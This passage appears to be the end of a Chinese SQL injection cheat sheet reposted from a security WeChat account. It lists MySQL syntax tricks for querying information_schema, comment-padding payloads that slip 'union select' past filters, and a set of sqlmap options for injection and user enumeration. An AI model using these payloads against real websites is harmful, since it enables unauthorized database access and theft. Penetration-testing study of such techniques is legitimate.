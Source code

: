 multilinestring()

multipolygon()

MySQL 特殊语法

select{x table\_name}from{x information\_schema.tables};

3、Fuzz 绕过

注释符绕过

最基本的: union/\*\*/select

中间引入特殊字: union/\*aaa%0abbs\*/select

最后测试注释长度: union/\*aaaaaaaaaaaaaaa\*/select

最基本的模式: union/\*something\*/select

a1%!%2f

十二、sqlmap 的 conf

sqlmap.py -v3(主函数入口)

\--user-agent=websecurity(请求扩充)

\--threads=5(访问优化)

\-p id 注入配置

\--level 3（检测配置）

\--technique=E(注入技术)

\--current-user(信息获取)

\--flush-session（通用设置）

\--beep(杂项) 幕布 - 极简大纲笔记 | 一键生成思维导图

禁止非法，后果自负

欢迎关注公众号：web 安全工具库

![](https://mmbiz.qpic.cn/mmbiz_jpg/8H1dCzib3UibvU52er0C70avTDRgvIPgoRdCliav8mIQG4bQ7icsgVnR0dM8jNpXhdIErssfHzpznU4Oyic3swywKmQ/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/8H1dCzib3UibvU52er0C70avTDRgvIPgoRXic9R0eym42RggrSz4vxiar2SBKtib8JiaK5OjS7aiboicu5tUoo7n3PDpVA/640?wx_fmt=jpeg)